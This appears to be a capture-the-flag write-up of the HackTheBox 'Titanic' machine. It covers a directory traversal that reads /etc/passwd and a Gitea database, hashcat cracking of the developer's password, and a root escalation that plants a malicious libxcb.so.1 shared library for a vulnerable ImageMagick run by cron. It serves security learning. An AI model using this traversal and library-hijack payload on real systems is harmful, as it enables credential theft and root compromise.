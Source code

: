 ## **Introduction :**
- *machine* : https://app.hackthebox.com/machines/Titanic.
- *Difficulty*: Easy.
- this writeup details the process to exploit Titanic machine on HackTheBox , By enumerating services on ports 80 and 20 , we discover **Directory Traversal** vulnerability , and Gitea on a subdomain , that enable us retrieve credential for developer user , after logging in via a SSH , we found a script that uses vulnerable version of `ImageMagick` (v7.1.1) that we can exploit to escalate privilege to root.

## **Enumeration :**
1. Nmap scan : 
```Bash
└─# nmap -sS -sC -sV 10.10.11.55
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-05 12:37 EDT
Nmap scan report for titanic.htb (10.10.11.55)
Host is up (0.71s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
|_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Titanic - Book Your Ship Trip
| http-server-header: 
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/3.0.3 Python/3.10.12
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.38 seconds
```
There are tow ports open  : 
- 22 (SSH)
- 80 (HTTP)

## **Initial foothold :**
#### Web on port 80 :

![](https://github.com/Mgh-Zakariae/hackthebox-writeups/blob/2f3cc9ed0aaed3a050e6f451f0440268a838b027/images/1.png)

checking http://titanic.htb/ , we found a simple website. One interesting part from website is `/book`  which returns a JSON file after filling out a form , by Burp Suite we discover redirection to `/download?ticket=a_id.JSON` .
### Directory Traversal :
- By testing **Directory Traversal** by replacing `a_id.json` with `../../../etc/passwd` , it allows us to read the content of `/etc/passwd` from the server. 
- form  `/etc/passwd`, we found a user developer , and also by reading file `/etc/hosts` (or using any tool like `Gobuster` , `ffuf`) we found a subdomain `dev.titanic.htb`

```bash 
└─# gobuster dns -d titanic.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     titanic.htb
[+] Threads:    10
[+] Timeout:    1s
[+] Wordlist:   /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
===============================================================
Starting gobuster in DNS enumeration mode
===============================================================
Found: dev.titanic.htb

```
![](https://github.com/Mgh-Zakariae/hackthebox-writeups/blob/2f3cc9ed0aaed3a050e6f451f0440268a838b027/images/2.png)
### Subdomain enumeration :

![](https://github.com/Mgh-Zakariae/hackthebox-writeups/blob/2f3cc9ed0aaed3a050e6f451f0440268a838b027/images/3.png)

- checking `http://dev.titanic.htb/` , we found Gitea page .
- in Gitea , there are tow repositories `docker-config` and `flash-app` .
- Reading their content, we didn't find anything interesting in the `flask-app` repository , but `docker-config` reveals Gitea is running in Docker container and store the data in `/home/developer/gitea/data` .

![](https://github.com/Mgh-Zakariae/hackthebox-writeups/blob/2f3cc9ed0aaed3a050e6f451f0440268a838b027/images/4.png)
- now we can try to exploit this to read data files. 

### Extract Gitea database : 

- by reading documentations of Gitea and some research  , we know that data is stored in the SQLite file `gitea.db` and the file is stored in `/data/gitea` inside the container. 
- Gitea stores its SQLite database in `/data/gitea/gitea.db` , and contain mount  `/home/developer/gitea/data:/data` , That means anything in the container's `/data` path will be mirrored to your host's `/home/developer/gitea/data`.
- so the finally path that we use to read data by exploit Directory Traversal vulnerability is `/home/developer/gitea/data/gitea/gitea.db`
- by visiting http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db we can save the file locally 
- open `gitea.db` in SQLite 
```bash
└─# sqlite3 gitea.db          
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
access                     oauth2_grant             
access_token               org_user                 
...
.....
```

- we found a table user containing hashed password , salt , email and also algorithm that used for hashing
### Cracking the passwords :

- we can use `hashcat` tool to crack the password.
- first we need to convert them to base64 by using this [script](https://github.com/Mgh-Zakariae/hackthebox-writeups/blob/2f3cc9ed0aaed3a050e6f451f0440268a838b027/titanic_machine/hashcat_forma_PBKDF2.py)
- create a file named `hashes.txt` with hash and salt with the format `sha256:50000:salt:hash`
- the run `hashcat` to find plaintext password for developer : `hashcat.exe -m 10900 -a 0 hashes.txt rockyou.txt`
### developer shell : 

- now , we can login in via SSH.
```bash 
└─# ssh developer@10.10.11.55
```

- we can find user flag by reading file `/home/developer/user.txt`
## **Privilege escalation :** 
- `sudo -l` shows that the developer user does not have `sudo` privilege, also  there are no SUID binaries that we can exploit.
- in `/opt/scripts` ,we find a script `identify_images.sh ` which runs a vulnerable version of `ImageMagick`  
- `ImageMagick 7.1.1` is vulnerable to arbitrary code execution (you can find a exploitation in google)
- Also this script is owned by root and runs in Cronjob - I know this by looking at the creation date of metadata.log file.
#### exploitation :

- Create a shared library in the current working directory ( `/opt/app/static/assets/images` )

```bash 
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF  
#include <stdio.h>  
#include <stdlib.h>  
__attribute__((constructor)) void init(){  
system("cat /root/root.txt > /tmp/root.txt");  
exit(0);  
}  
EOF
```

- once `ImageMagick` process this malicious file , it executes a malicious code and copies `root.txt` to `/tmp/root.txt.`

>but first thing you can do is run the command `ls /root > /tmp/root.txt` to see what files are in this directory. Also we can include a reverse shell. 




